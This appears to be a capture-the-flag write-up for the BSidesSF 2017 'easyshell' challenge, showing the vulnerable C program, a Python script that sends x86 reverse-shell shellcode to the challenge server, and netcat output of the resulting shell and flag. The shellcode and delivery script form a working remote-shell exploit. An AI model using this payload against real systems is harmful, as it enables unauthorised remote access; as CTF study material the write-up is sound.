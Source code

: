 ```yaml
---
toc: true
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true
title: Welcome to my new write-up!
header:
  image: /assets/images/post1/post1.png
  teaser: /assets/images/post1/post1.png

excerpt: "A unique line of text to describe this post that will display in an archive listing and meta description with SEO benefits."
---
```


## Solution

Source: https://raw.githubusercontent.com/fabacab/CTF/master/2017/BSidesSF/pwn/easyshell/README.md

Upon examining the source code of the easyshell program it becomes clear that whatever is sent to the program will be read into a buffer and executed using the asm() C/C++ function used to embed and execute assembler instructions.

```
int main(int argc, char *argv[])
{
  uint8_t *buffer = mmap(NULL, LENGTH, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, 0, 0);
  ssize_t len;

  alarm(10);

  disable_buffering(stdout);
  disable_buffering(stderr);

  printf("Send me stuff!!\n");
  len = read(0, buffer, LENGTH);

  if(len < 0) {
    printf("Error reading!\n");
    exit(1);
  }

  asm("call *%0\n" : :"r"(buffer));

  return 0;
}
```

After experimenting with different kinds of shellcode I decided that a reverse connection was the appropriate approach so I wrote a small python script to send the shellcode. (Shellcode taken from: http://shell-storm.org/shellcode/files/shellcode-833.php)

```
#!/usr/bin/env python

import socket

remote_host = 'easyshell-f7113918.ctf.bsidessf.net'
remote_port = 5252

local_host = "\xc6\xc6\xc6\xc6" # IP
local_port = "\xd9\x03"         # 55555 (Port)

shellcode = "\x68" + local_host + "\x5e\x66\x68" + local_port + "\x5f\x6a\x66\x58\x99\x6a\x01\x5b\x52\x53\x6a\x02\x89\xe1\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x66\x56\x66\x57\x66\x6a\x02\x89\xe1\x6a\x10\x51\x53\x89\xe1\xcd\x80\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\xeb\xce"

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    client.connect((remote_host,remote_port))

    data = client.recv(1024)
    print data
    
    client.send(shellcode)
    print "[*] Shellcode sent."

except socket.error, e:
    print e 
```

I ran a netcat listener and upon receiving a connection it succesfully spawned a shell and the flag could be read.
```
Listening on [0.0.0.0] (family 0, port 55555)
Connection from [104.196.247.127] port 55555 [tcp/*] accepted (family 2, sport 33950)
cat /home/ctf/flag.txt
FLAG:c832b461f8772b49f45e6c3906645adb
```